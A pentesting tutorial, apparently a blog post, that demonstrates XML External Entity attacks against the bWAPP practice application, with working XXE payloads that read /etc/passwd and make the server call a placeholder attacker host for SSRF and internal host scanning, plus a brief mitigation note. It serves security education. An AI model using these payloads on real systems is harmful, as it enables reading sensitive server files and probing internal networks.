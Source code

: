 ```yaml
---
title: XXE - XML External Entity
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, XML External Entity]
tags: [webapp, pentesting, Owasp, xxe, xml, xml external entity]     # TAG names should always be lowercase
---
```


# XXE - XML External Entity

***XML External Entity attack*** is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser.This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.

# Detecting XML External Entity

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/xxe1.png)

For the purpose of this experiment, we are going to use `bWAPP vulnerable web application`. we will click on `Any bugs` and then intercept the request in our burpsuite.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/xxe2.png)

As you can see from the above image, the webapp was using `xml` to submit data to the server, which is then rendered and displayed on the web page. By examining the response, we will find out that it is rendering and displaying anything in between `<login> </login>` . 

## XML Parser

To make sure that it is using xml parser, we will attempt to break an xml syntax on the backend by supplying `>><`, this may provide us with xml syntax error.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/xxe3.png)

Above image shows an xml syntax error message, implying that the backend is using an xml parser.

## XML Entity.

To determine whether or not `XML Entity` is enabled, We will supply the following payload, which if successfull will replace `bee` with our given text, which is `xxe`.
```xml
<?xml version="1.0"?>
	<!DOCTYPE foo [ <!ENTITY exploit "xxe">]>
	<reset>
		<login>
			&exploit;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>
```

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/xxe4.png)

As you can see `bee` has been replaced with `xxe`, indicating `XMl Entity` is enabled.


# Exploitation

## Reading File `/etc/passwd`

Given that `xml entity` is enabled, we can take advantage of it to read internal files such as `/etc/passwd`, `/etc/shadow`, `/etc/hostname` and much more. We will use the following payload.

```xml
<?xml version="1.0"?>
	<!DOCTYPE foo [ <!ENTITY file  SYSTEM "file:///etc/passwd">]>
	<reset>
		<login>
			&file;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>
```
![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/xxe5.png)

As you can see, we were able to retrieved content of /etc/passwd.

## SSRF - Server-side Request Forgery

We can leverage xxe to conduct `ssrf`. To do that, we will update our payload in such way that it will send a request to our server i.e `python3 -m http.server`. 

```xml
<?xml version="1.0"?>
	<!DOCTYPE foo [ <!ENTITY ping  SYSTEM "http://[your_host]">]>
	<reset>
		<login>
			&ping;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>
```
![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/xxe6.png)

The below image shows a request has been received from our target.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/xxe6rev.png)

## Scanning

We can also conduct a scanning to discover live hosts by examining the time-taken of the response. Our target will take long time to response if our supplied host(`ip address `) is down. This will allow us to discover hosts that are alive.

```xml
<?xml version="1.0"?>
	<!DOCTYPE foo [ <!ENTITY ping SYSTEM "http://[your_host]">]>
	<reset>
		<login>
			&ping;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>
```

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/xxe7.png)

As you can see we were able to get response immediately, implying that the host is alive.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/xxe8.png)

As you can see the response took long time, implying that the host is down.

# Mitigations

- Disable DTDs (External Entities) completely.

# References

- [https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
- [https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity__Processing)
- [https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)

